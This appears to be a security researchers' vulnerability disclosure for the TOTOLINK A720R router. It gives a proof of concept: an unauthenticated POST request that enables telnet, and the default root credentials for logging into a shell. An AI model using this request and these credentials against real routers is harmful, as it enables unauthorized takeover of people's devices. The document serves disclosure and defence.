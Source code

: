 # TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A720R

Version:A720R_Firmware(V4.1.5cu.470_B20200911)

Type:Default telnet username and password

Author:Huizhao Wang, Chuan Qin

Institution:wanghuizhao@iie.ac.cn, qinchuan@iie.ac.cn

## Vulnerability description

We found a default telnet username and password vulnerability in TOTOLINK Technology router with firmware which was released recently, allows remote attackers to login shell by using default username and password.

![image-20210616094749614](A720R_default_telnet_info.assets/image-20210616094749614.png)

Telnet service can be started without authorization, so attackers can start service first, and then log in with the default username and password.

## POC

First, send the following POST request to start telnet service without authorization.

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 48
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/telnet.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"telnet_enabled":"1","topicurl":"setTelnetCfg"}
```

Next, `telnet 192.168.0.1` enter the default username and password(root:cs2012) to log in to the shell.